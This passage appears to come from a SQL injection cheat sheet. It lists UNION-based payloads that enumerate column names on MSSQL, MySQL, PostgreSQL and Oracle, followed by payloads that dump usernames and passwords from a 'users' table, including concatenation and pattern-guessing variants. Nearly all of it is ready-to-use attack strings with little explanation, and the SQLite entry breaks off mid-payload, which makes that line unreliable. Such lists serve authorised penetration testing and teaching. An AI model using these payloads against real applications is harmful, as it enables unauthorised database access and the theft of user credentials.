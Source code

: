 Get column names from the table name which we got.

### MSSQL

```txt
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'--
```

### MySQL

```txt
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'-- -
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'#
```

### PostgreSQL

```txt
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'--
```

### Oracle

```txt
' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='table_name'--
```

### SQLite

```html
' UNION SELECT column
```

<br />

## List Information in the Table

Get information in the table.  
For instance, suppose we want to get the username and password from the table named 'users'.

```txt
' UNION SELECT username,password FROM users--
' UNION SELECT username,password FROM users-- -

' UNION SELECT username || '~' || password FROM users--
' UNION SELECT username || '~' || password FROM users-- -

' UNION SELECT NULL,username || '~' || password FROM users--
' UNION SELECT NULL,username || '~' || password FROM users-- -

' UNION SELECT username,password FROM users WHERE username='admin' AND password='password1'--
' UNION SELECT username,password FROM users WHERE username='admin' AND password='password1'-- -

' UNION SELECT username,password FROM users WHERE username='admin' OR password='password1'--
' UNION SELECT username,password FROM users WHERE username='admin' OR password='password1'-- -

' UNION SELECT username,password FROM users WHERE username='admin' AND password LIKE 'pas%'--
' UNION SELECT username,password FROM users WHERE username='admin' AND password LIKE 'pas%'-- -
```
